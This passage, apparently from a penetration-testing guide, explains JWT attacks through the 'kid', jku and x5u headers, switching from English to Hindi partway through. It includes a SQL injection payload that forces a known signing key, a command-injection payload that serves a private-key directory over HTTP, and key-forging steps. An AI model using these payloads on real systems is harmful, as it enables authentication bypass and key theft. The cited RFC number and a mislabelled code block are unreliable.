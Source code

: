 #### SQL Injection via "kid"

If the `kid` claim's content is employed to fetch a password from a database, an SQL injection could be facilitated by modifying the `kid` payload. An example payload that uses SQL injection to alter the JWT signing process includes:

`non-existent-index' UNION SELECT 'ATTACKER';-- -`

This alteration forces the use of a known secret key, `ATTACKER`, for JWT signing.

#### OS Injection through "kid"

A scenario where the `kid` parameter specifies a file path used within a command execution context could lead to Remote Code Execution (RCE) vulnerabilities. By injecting commands into the `kid` parameter, it's possible to expose private keys. An example payload for achieving RCE and key exposure is:

`/root/res/keys/secret7.key; cd /root/res/keys/ && python -m SimpleHTTPServer 1337&`

### x5u and jku

#### jku

jku stands for **JWK Set URL**.\
If the token uses a “**jku**” **Header** claim then **check out the provided URL**. This should point to a URL containing the JWKS file that holds the Public Key for verifying the token. Tamper the token to point the jku value to a web service you can monitor traffic for.

First you need to create a new certificate with new private & public keys.
```bash
openssl genrsa -out keypair.pem 2048
openssl rsa -in keypair.pem -pubout -out publickey.crt
openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt -in keypair.pem -out pkcs8.key
```
फिर आप उदाहरण के लिए [**jwt.io**](https://jwt.io) का उपयोग कर सकते हैं ताकि **निर्मित सार्वजनिक और निजी कुंजियों के साथ नया JWT बनाया जा सके और पैरामीटर jku को बनाए गए प्रमाणपत्र की ओर इंगित किया जा सके।** एक मान्य jku प्रमाणपत्र बनाने के लिए, आप मूल प्रमाणपत्र डाउनलोड कर सकते हैं और आवश्यक पैरामीटर बदल सकते हैं।

आप सार्वजनिक प्रमाणपत्र से "e" और "n" पैरामीटर प्राप्त कर सकते हैं:
```bash
from Crypto.PublicKey import RSA
fp = open("publickey.crt", "r")
key = RSA.importKey(fp.read())
fp.close()
print("n:", hex(key.n))
print("e:", hex(key.e))
```
#### x5u

X.509 URL. एक URI जो X.509 (एक प्रमाणपत्र प्रारूप मानक) सार्वजनिक प्रमाणपत्रों के सेट की ओर इशारा करता है जो PEM रूप में एन्कोडेड हैं। सेट में पहला प्रमाणपत्र वह होना चाहिए जिसका उपयोग इस JWT पर हस्ताक्षर करने के लिए किया गया है। इसके बाद के प्रमाणपत्र प्रत्येक पिछले पर हस्ताक्षर करते हैं, इस प्रकार प्रमाणपत्र श्रृंखला को पूरा करते हैं। X.509 को RFC 52807 में परिभाषित किया गया है। प्रमाणपत्रों को स्थानांतरित करने के लिए परिवहन सुरक्षा की आवश्यकता होती है।
